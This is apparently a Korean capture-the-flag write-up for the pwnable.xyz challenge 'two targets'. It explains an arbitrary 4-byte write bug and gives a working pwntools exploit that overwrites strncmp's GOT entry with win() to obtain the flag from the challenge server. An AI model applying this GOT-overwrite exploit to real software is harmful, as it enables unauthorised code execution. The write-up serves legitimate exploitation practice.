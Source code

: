 # [pwnable.xyz] two targets

> Which one would you exploit?

## Bug

![image](https://github.com/user-attachments/assets/9388b297-1c99-4587-aa3c-71e389e6b858)

![image](https://github.com/user-attachments/assets/eeba6afd-bda2-4ef8-8844-9286fd0f67fe)

임의의 주소에 임의의 4바이트 값을 쓸 수 있다.

## Exploit

두 가지 방법으로 exploit이 가능하다.

-   `auth(s)`를 `true`로 만들어서 `win()` 호출
-   `3. Change age`의 AAW를 이용하여 GOT overwrite

덜 귀찮아 보이는 두 번째 방법을 선택했다.

`strncmp()`의 GOT를 `win()`의 주소로 덮고 `auth()`를 실행하면 `strncmp()`가 호출되어 플래그를 획득할 수 있다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30031)

sla = r.sendlineafter
sa = r.sendafter

win = 0x40099C
strncmp_got = 0x603018

sla(b"> ", b"2")
sla(b"nationality: ", b"a" * 0x10 + p64(strncmp_got))

sla(b"> ", b"3")
sla(b"age: ", str(win).encode())

sla(b"> ", b"4")

r.interactive()
```

![image](https://github.com/user-attachments/assets/889ff068-49d5-4348-a249-b011c4af8a8a)
